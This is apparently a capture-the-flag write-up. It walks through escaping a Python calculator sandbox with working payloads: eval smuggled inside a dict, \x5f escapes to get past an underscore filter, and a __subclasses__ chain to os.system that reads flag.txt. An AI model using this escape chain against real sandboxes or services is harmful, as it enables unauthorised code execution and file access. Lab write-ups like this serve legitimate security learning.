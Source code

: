 Firstly, we can get a quick POC of arbitrary python code execution by trying to run a forbidden function. We can't run `eval` and being able to run eval will help us tremendously, so we try and do that first with the following payload.

```python3
{1: eval('print("I\'m in")')}
```

And we get a succesful print! 


We can now move on to pivoting to bash commands so we can easily locate the flag. The first thing I want to do is dump the complete list of subclasses help by the base object. To do that we need to run `().__class__.__bases__[0].__subclasses__()`. This snippet means
  * Make a tuple
  * Get the class of the tuple (tuple class)
  * Get the base classes of the tuple class
  * Get the first of these base classes (base object class)
  * Get all subclasses, classes that inherit from the base object (everything)

Now, you may remember from earlier that we can't just run this because underscores are blocked. We can trvially get around this by replacing all underscores with an ascii escaped version of them, `\x5f`/ This gives us the following for our next payload.

```python
{1: eval('print(().\x5f\x5fclass\x5f\x5f.\x5f\x5fbases\x5f\x5f[0].\x5f\x5fsubclasses\x5f\x5f())')}
```

This returns a lot...
```
Welcome to SafetyCalc (tm)!
Note: SafetyCorp are not liable for any accidents that may occur while using SafetyCalc
> {1: eval('print(().\x5f\x5fclass\x5f\x5f.\x5f\x5fbases\x5f\x5f[0].\x5f\x5fsubclasses\x5f\x5f())')}
[<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, ........ like hundreds more of these
```
However, we are only interested in the index of `<class 'os._wrap_close'>` on this system. In this case, it appears to be at index 138. This index will change between systems and python versions, so it is worth checking every time. We can now go straight to our final payload.

What we want to do is read flag.txt. While this could be done by just opening it, I find it to be more fun to spawn a shell and run system commands. This makes life easier in many scenarios, for instance when the flag is named weirdly and you need to find it. The following should read the flag.txt file `().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__["system"]("cat flag.txt")`

How it works (extended from earlier)
  * Make a tuple
  * Get the class of the tuple (tuple class)
  * Get the base classes of the tuple class
  * Get the first of these base classes (base object class)
  * Get all subclasses, classes that inherit from the base object (everything)
  * Get the 138th subclass that happens to be os._wrap_close
  * Get the initialization function of os._wrap_close
  * Get the global state that is used by os._wrap_close (includes builtins and the os module
  * Get the system variable from inside the os module (os.system)
  * Call it with our string to cat the flag.
 